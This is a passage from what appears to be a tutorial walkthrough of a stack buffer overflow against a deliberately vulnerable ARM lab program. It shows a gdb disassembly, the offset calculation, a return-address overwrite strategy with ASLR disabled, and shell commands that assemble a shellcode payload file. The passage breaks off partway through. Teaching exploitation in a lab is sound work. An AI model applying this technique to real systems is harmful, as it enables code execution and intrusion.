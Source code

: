 ```bash
   0x000104b4 <+56>:	sub	r3, r11, #84	; 0x54
   0x000104b8 <+60>:	mov	r0, r3
   0x000104bc <+64>:	bl	0x10324
   0x000104c0 <+68>:	mov	r3, #0
   0x000104c4 <+72>:	mov	r0, r3
   0x000104c8 <+76>:	sub	sp, r11, #4
   0x000104cc <+80>:	pop	{r11, pc}
   0x000104d0 <+84>:	andeq	r0, r1, r12, asr #10
   0x000104d4 <+88>:	andeq	r0, r1, r0, asr r5
End of assembler dump.
```

From the disassembled code at offset +44, we can tell that the stack
array we are trying to overflow, 'buf', starts 84 (i.e., 0x54 in hex)
bytes below $r11, which points to the location of the saved $lr on the
stack (see code at offset +4). It is the return address of the 'main' 
function. In other words, the saved return address of the 'main'
function on the stack is 84 bytes above 'buf'. This is the address we
will overwrite.

### The Exploit

Our exploitation strategy is therefore as follows:

1. Prepare a payload of 88 bytes in total, with the shell code in front, and
   the 4-byte address of 'buf' in the end. We also preserve the value of
   saved $r11 by setting the second last 4 bytes appropriately. In gdb,
   by breaking at `*0x0001047c` and examining the value of $r11, we
   obtain that this value should be 0x0.
2. Put our payload (and thus shell code) at the address of 'buf', so that the
   return address of 'main' will be overridden with the address of the
   shell code.
3. Fill the rest of the payload with arbitrary bytes.

For the demonstration, we also disable ASLR when running the 'badcode'
program (in the meanwhile 'badcode' also prints out the address of 'buf', to
simplify the demonstration).

```bash
$ setarch $(arch) -R ./badcode
0x7efff1f8
Enter name:
```

To implement the above strategy

1. Get the address of 'buf', 0x7efff1f8, which has been printed out in the
   test run above.
2. Prepare the payload file 'payload'

   ```bash
   $ pad=$(for i in $(seq 40); do echo -n '42'; done)
   $ r11=$(printf %08x 0x0 | tac -rs..)
   $ ret=$(printf %08x 0x7efff1f8 | tac -rs..) # little endian
   $ (cat shellcode.txt; echo -n $pad; echo -n $r11; echo -n $ret) | xxd -r -p > payload
   ```
